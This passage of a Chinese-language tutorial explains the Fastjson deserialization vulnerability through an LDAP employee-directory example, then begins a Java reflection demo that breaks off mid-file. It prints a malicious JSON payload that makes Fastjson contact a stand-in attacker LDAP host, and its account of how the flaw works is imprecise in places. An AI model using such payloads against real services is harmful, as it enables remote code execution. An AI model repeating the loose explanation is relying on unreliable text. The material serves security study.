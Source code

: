 ### （2）通过公司 - 员工管理的例子来理解 Fastjson 系列漏洞中 ldap 的作用

假设有一个名为"`example.com`"的公司，需要存储和管理员工信息。他们使用`LDAP`作为员工信息的目录服务，每个员工都在`LDAP`中有一个唯一的标识符（`DN`）。这里我们举两个员工例子：

```bash
DN: uid=john,ou=People,dc=example,dc=com
cn: John Doe
sn: Doe
givenName: John
uid: john
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=

DN: uid=alice,ou=People,dc=example,dc=com
cn: Alice Smith
sn: Smith
givenName: Alice
uid: alice
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=
```

在`LDAP`中，`DN`是一个唯一的标识符，它类似于文件系统中的路径。每个`DN`由多个`RDN`（相对区分名称）组成，例如：

```bash
uid=john,ou=People,dc=example,dc=com
```

这个`DN`由三个`RDN`组成：`uid=john`、`ou=People`、`dc=example,dc=com`。  
可以使用如下`LDAP`查询语句来检索员工信息，例如：`(&(objectClass=person)(uid=john))`  
这个查询语句表示查找所有`objectClass`为`person`，且`uid`为`john`的员工信息。在`LDAP`中，查询语句使用`LDAP`搜索过滤器（`LDAP Search Filter`）进行筛选。在`Fastjson`漏洞中，攻击者可以通过构造特定的`LDAP`查询语句，来执行任意代码或获取敏感信息。例如，以下`JSON`字符串包含一个恶意构造的`LDAP URL`：

```bash
{"@type":"java.net.URL","val":"ldap://hackervps.com/exp"}
```

当`Fastjson`解析该`JSON`字符串时，会触发`LDAP`查询操作，查询`hackervps.com`上的`LDAP`服务，并执行名为“`exp`”的操作。这就是`Fastjson`漏洞的成因之一。

## 6\. java 反射是什么？

参考：

> [https://www.javasec.org/javase/Reflection/Reflection.html](https://www.javasec.org/javase/Reflection/Reflection.html)

### （1）通过 demo 快速理解反射

如果我们不用反射的话，我们写的代码会是下面这样：  
`Person.java`：

```bash
package org.example;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public void sayHello() {
        System.out.println("Hello, my name is " + name + ", I'm " + age + " years old.");
    }

    public void setAge(int age) {
```
